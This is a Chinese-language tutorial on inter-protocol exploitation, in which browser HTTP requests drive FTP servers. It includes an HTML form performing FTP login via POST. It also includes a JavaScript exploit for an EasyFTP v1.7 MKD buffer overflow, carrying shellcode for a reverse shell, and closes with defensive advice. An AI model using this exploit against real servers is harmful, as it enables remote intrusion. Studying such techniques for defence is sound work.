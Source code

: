 ## 跨协议通信技术利用
**# 什么是跨协议通信 #**

**跨协议通信技术(Inter-Protocol Communication)是指两种不同的协议可以交换指令和数据的技术。其中一种称为目标协议，另外一种称为载体协议。目标协议就是我们最终想要通信的协议，而载体协议是用来封装我们最后想要发送的指令和数据。**

这种类型的通信想要完成有两个必要条件:

1. 目标协议必须容错性比较好.这是因为我们是通过一个载体协议来传输指令的,这样就很可能会掺杂一些目标协议无法识别的指令。

2. 载体协议能够封装目标协议的指令.即使目标协议无法识别所有封装过的指令,也必须能够识别最终要的部分指令。

**# 如何利用跨协议通信 #**

跨协议漏洞利用(Inter-Protocol Expoitation)是通过一种协议去攻击运行另外一种协议的服务。

大家最关注的还是载体协议是HTTP的时候,因为这样攻击者就可以通过人人都有浏览器来发起攻击了。这种类型的攻击可以让攻击者访问到本来只有受害者才有权访问的资源和服务(比如内网不对外开放的服务)。这个过程中受害者充当了一个傀儡的角色，接收并执行了有风险的代码.

一些用换行来作为命令分隔符的协议,比如SMTP,POP3,IRC和FTP都会受这种攻击的影响.这是因为当目标协议处理多行数据的时候是一行一行单独处理的.而这些协议的容错性都比较好.这就使得这些协议忽略掉识别不了的行,只执行可以识别的代码.

为了更好的理解跨协议通信,我们来看一个简单的例子.

**# 示例一:通过HTTP连接FTP服务器 #**

通过浏览器连接ftp服务器非常简单,一个HTTP POST请求就可以了.下面是一个连接本机的FTP服务器的代码.

```html
<form method='POST' action='http://localhost:21' enctype='multipart/form-data'>
<input type='hidden' name='a' value='user secforce'>
<input type='hidden' name='a' value='pass secforce'>
<input type='submit'>
</form>
```
假设这个FTP用户密码存在的话,提交这个表单就可以登录到FTP服务器了.是不是很简单.

具体发送的POST请求数据包如下:

```text
POST / HTTP/1.1
Host: 127.0.0.1:21
User-Agent: Mozilla/5.0 (X11; Debian; Linux x86_32; rv:16.0) Gecko/20110007 Firefox/20.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.5
Accept-Encoding: gzip, deflate
Proxy-Connection: keep-alive
Content-Type: multipart/form-data; boundary=---------------------------63079936718166855021600323653
Content-Length: 304
 
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
user secforce
-----------------------------63079936718166855021600323653
Content-Disposition: form-data; name="a"
 
pass secforce
-----------------------------63079936718166855021600323653--
```
我们接收到返回数据如下.所有的50X错误对应服务器无法识别的HTTP行.FTP服务器忽略了他们,执行了它可以识别的命令.
```text
220--------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-Local time is now 12:41. Server port: 21.
220-This is a private system - No anonymous login
220 You will be disconnected after 15 minutes of inactivity.
530 You aren't logged in
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
500 ?
331 User secforce OK. Password required
500 ?
500 ?
500 ?
230 OK. Current directory is /
500 ?
```
自己测试的话你可能发现并不是所有的FTP命令都正常工作.像MKD/RMD和DEL工作正常,GET/PUT,RETR/STOR无法正常工作.这是因为FTP是一种带外(out-of-band)协议,它的数据和控制指令是通过不同的TCP端口传送的.事实上,如果你尝试用STOR命令上传一个文件到服务器上,会发现在服务器上创建了一个同名的空文件.这是因为在文件开始传输数据之前先创建一个空文件，所有的命令都不需要一个单独的数据连接就可以工作。

让我们看一个更加有趣的例子。

**# 示例2:通过HTTP溢出FTP服务器反弹shell #**

这个例子中我们使用EasyFTP v1.7,这个版本存在一个MKD命令的缓冲区溢出漏洞.需要注意的是这个命令不需要一个额外的数据连接通道就可以成功执行.我们在虚拟机里搭建好服务器(192.168.1.10),创建"anonymous"用户.因为成功利用这个漏洞的前提是先登录到FTP服务器.

因为没有必要重复造轮子,这里我们直接使用一个公开的漏洞利用代码(参考资料[1]])来构造POST请求.这次使用javascript来发送shellcode到FTP服务器.为了成功发送shellcode,我们使用了sendAsBinary函数,详情参考资料[2][3].

最后的函数如下:
```javascript
function exploit(){
var url = 'http://192.168.1.10:21'
var intro = 'USER anonymous\r\nPASS anonymous\r\n'
var payload = 'MKD \x89\xe7\x81\xef\x10\xfe\xff\xff\xc7\x07\x13\x57\x7e\xd6\x81\xc7
\x14\xff\xff\xff\xff\xe7\x43\x43\x43\x43\x43\x43\x43\x43\x43\x43
\xba\xae\x16\xd0\x74\xd9\xcc\xd9\x74\x24\xf4\x5e\x29\xc9\xb1\x4f
\x31\x56\x14\x83\xee\xfc\x03\x56\x10\x4c\xe3\x2c\x9c\x19\x0c\xcd
\x5d\x79\x84\x28\x6c\xab\xf2\x39\xdd\x7b\x70\x6f\xee\xf0\xd4\x84
\x65\x74\xf1\xab\xce\x32\x27\x85\xcf\xf3\xe7\x49\x13\x92\x9b\x93
\x40\x74\xa5\x5b\x95\x75\xe2\x86\x56\x27\xbb\xcd\xc5\xd7\xc8\x90
\xd5\xd6\x1e\x9f\x66\xa0\x1b\x60\x12\x1a\x25\xb1\x8b\x11\x6d\x29
\xa7\x7d\x4e\x48\x64\x9e\xb2\x03\x01\x54\x40\x92\xc3\xa5\xa9\xa4
\x2b\x69\x94\x08\xa6\x70\xd0\xaf\x59\x07\x2a\xcc\xe4\x1f\xe9\xae
\x32\xaa\xec\x09\xb0\x0c\xd5\xa8\x15\xca\x9e\xa7\xd2\x99\xf9\xab
\xe5\x4e\x72\xd7\x6e\x71\x55\x51\x34\x55\x71\x39\xee\xf4\x20\xe7
\x41\x09\x32\x4f\x3d\xaf\x38\x62\x2a\xc9\x62\xeb\x9f\xe7\x9c\xeb
\xb7\x70\xee\xd9\x18\x2a\x78\x52\xd0\xf4\x7f\x95\xcb\x40\xef\x68
\xf4\xb0\x39\xaf\xa0\xe0\x51\x06\xc9\x6b\xa2\xa7\x1c\x3b\xf2\x07
\xcf\xfb\xa2\xe7\xbf\x93\xa8\xe7\xe0\x83\xd2\x2d\x97\x84\x45\x62
\xb8\x1a\x92\x12\xbb\x1a\x8b\xbe\x32\xfc\xc1\x2e\xec\x41\x40\x00
\x3e\x23\x1f\x17\x95\xa3\xbc\x8a\x72\x33\xca\xb6\x2c\x64\x9b\x09
\x25\xe0\x31\x33\x9f\x16\xc8\xa5\xd8\x92\x17\x16\xe6\x1b\xd5\x22
\xcc\x0b\x23\xaa\x48\x7f\xfb\xfd\x06\x29\xbd\x57\xe9\x83\x17\x0b
\xa3\x43\xe1\x67\x74\x15\xee\xad\x02\xf9\x5f\x18\x53\x06\x6f\xcc
\x53\x7f\x8d\x6c\x9b\xaa\x15\x8c\x7e\x7e\x60\x25\x27\xeb\xc9\x28
\xd8\xc6\x0e\x55\x5b\xe2\xee\xa2\x43\x87\xeb\xef\xc3\x74\x86\x60
\xa6\x7a\x35\x80\xe3'
var req = new XMLHttpRequest();
req.open('POST', url, true);
req.setRequestHeader('Content-Type', 'text/plain');
req.setRequestHeader('Content-Length', '20');
req.sendAsBinary(intro + payload + '\r\n'); // neat way to send hexadecimal code through HTTP
}
```

这里的payload选用了反弹shell到我们自己主机的端口4444.然后用nc监听.当在浏览器中访问嵌入了上面js代码的网页时.奇迹发生了.

**# 如何防御攻击 #**

1. 屏蔽端口.默认情况下,大部分浏览器会拒绝连接到一些著名的端口,比如21/FTP,25/SMTP等.这种保护方式可以通过修改浏览器配置或者使用非标准端口突破.

2. 更少的容错性.一些协议接受到无法识别的命令的时候会关闭连接.这样子降低了灵活性但是增强了抵御跨协议攻击的能力.更好一点的做法是连续接收到无法识别的命令后关闭连接.

**## 结论 ##**

正如上面提到的,这种攻击方式有很多限制.通常情况下,想要达到同样的结果有很多比跨协议攻击更好的方式.但是在特定的环境下,这种类型的攻击是一种很有效的攻击方式.
